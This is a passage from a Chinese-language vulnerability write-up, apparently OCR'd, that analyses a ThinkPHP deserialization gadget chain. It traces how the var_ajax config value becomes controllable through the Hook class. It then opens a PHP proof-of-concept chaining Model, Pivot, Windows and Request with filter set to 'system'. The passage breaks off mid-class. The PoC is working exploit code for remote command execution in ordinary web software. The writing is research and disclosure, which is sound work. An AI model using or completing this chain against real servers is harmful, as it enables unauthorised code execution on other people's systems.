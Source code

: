             .......
            return $data;
        }

\$this-\>param=array\_merge(\$this-\>param, \$this-\>get(false), \$vars,
\$this-\>route(false));是直接从url中获取参数。\$this-\>config-\>get(\'var\_ajax\')也是可控的。但是他和5.1.38不同的是，5.1.38的方法是\$this-\>config\[\'var\_ajax\'\],所以导致不能用数组直接操控config值。我的解决办法是从源码中查找含有get函数的类,通过pop链的方式操控config的值。
最后发现\\think\\Hook.php的Hook类存在get方法

    public function get($tag = '')
        {
            if (empty($tag)) {
                //获取全部的插件信息
                return $this->tags;
            } else {
                return array_key_exists($tag, $this->tags) ? $this->tags[$tag] : [];
            }
        }

由上面代码可以看出，程序会判断传入的\$tag是否为空，不为空的话会返回传入参数在tags数组中对应的值。private
\$tags =
\[\"var\_ajax\"=\>\'a\'\];类似于这种形式，便可以操控\$this-\>config-\>get(\'var\_ajax\')的值。由此\$filter和\$value都是可控的。所以可以通过filterValue方法中的call\_user\_func\_array任意代码执行。

### poc

    <?php
    namespace think;
    abstract class Model
    {
        protected $append = [];
        private $data = [];
        function __construct(){
            $this->append = ["a"=>["calc.exe"]];
            $this->data = ["a"=>new Request()];
        }
    }
    namespace think\model;
    use think\Model;
    class Pivot extends Model
    {
    }
    namespace think\process\pipes;
    use think\model\Pivot;
    class Windows
    {
        private $files = [];
        public function __construct()
        {
            $this->files = [new Pivot()];
        }
    }
    namespace think;
    class Request
    {
        protected $hook = [];
        protected $filter = "system";
        protected $config = [
            // 表单请求类型伪装变量
            'var_method'       => '_method',
            // 表单ajax伪装变量
            'var_ajax'         => '_ajax',
            // 表单pjax伪装变量
            'var_pjax'         => '_pjax',
